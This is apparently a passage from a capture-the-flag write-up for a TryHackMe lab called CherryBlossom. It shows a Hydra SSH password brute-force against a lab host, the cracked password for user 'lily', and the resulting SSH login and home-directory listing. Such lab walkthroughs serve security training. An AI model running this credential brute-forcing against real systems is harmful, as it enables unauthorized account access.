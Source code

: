 ```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/THM/CheeryBlossom]
└─$ hydra -l lily -P cherry-blossom.txt 10.10.204.80 ssh                   
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-27 06:39:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9923 login tries (l:1/p:9923), ~621 tries per task
[DATA] attacking ssh://10.10.204.80:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 9780 to do in 01:07h, 13 active
[STATUS] 96.00 tries/min, 288 tries in 00:03h, 9638 to do in 01:41h, 13 active
[22][ssh] host: 10.10.204.80   login: lily   password: Mr.$un$hin3
[STATUS] 1417.57 tries/min, 9923 tries in 00:07h, 3 to do in 00:01h, 7 active
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-27 06:47:18
```
cool we got the ssh password for user lily. let's login ssh 

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/THM/CheeryBlossom]
└─$ ssh lily@10.10.204.80                      
The authenticity of host '10.10.204.80 (10.10.204.80)' can't be established.
ED25519 key fingerprint is SHA256:XrKcwn0LC8rmK7Sx4lz69HLC9cORBWIcCD6j6d0oabg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.204.80' (ED25519) to the list of known hosts.
lily@10.10.204.80's password: 

        #####################################
        ##########  Welcome, Lily  ##########
        #####################################

lily@cherryblossom:~$ id
uid=1002(lily) gid=1002(lily) groups=1002(lily)
lily@cherryblossom:~$ ls -al
total 72
drwxr-xr-x 14 lily lily 4096 Feb 22  2020 .
drwxr-xr-x  4 root root 4096 Feb  9  2020 ..
lrwxrwxrwx  1 root root    9 Feb  9  2020 .bash_history -> /dev/null
-rw-r--r--  1 lily lily  220 Apr  4  2018 .bash_logout
-rw-r--r--  1 lily lily 3771 Apr  4  2018 .bashrc
drwx------ 11 lily lily 4096 Feb 22  2020 .cache
drwx------ 11 lily lily 4096 Feb 22  2020 .config
drwxr-xr-x  2 lily lily 4096 Feb 22  2020 Desktop
drwxr-xr-x  2 lily lily 4096 Feb 22  2020 Documents
drwxr-xr-x  2 lily lily 4096 Feb 22  2020 Downloads
drwx------  3 lily lily 4096 Feb 10  2020 .gnupg
-rw-------  1 lily lily  346 Feb 22  2020 .ICEauthority
drwx------  3 lily lily 4096 Feb 22  2020 .local
drwxr-xr-x  2 lily lily 4096 Feb 22  2020 Music
drwxr-xr-x  2 lily lily 4096 Feb 22  2020 Pictures
-rw-r--r--  1 lily lily  807 Apr  4  2018 .profile
drwxr-xr-x  2 lily lily 4096 Feb 22  2020 Public
drwxr-xr-x  2 lily lily 4096 Feb 22  2020 Templates
drwxr-xr-x  2 lily lily 4096 Feb 22  2020 Videos
lily@cherryblossom:~$ 
```
Cool we are in as `lily`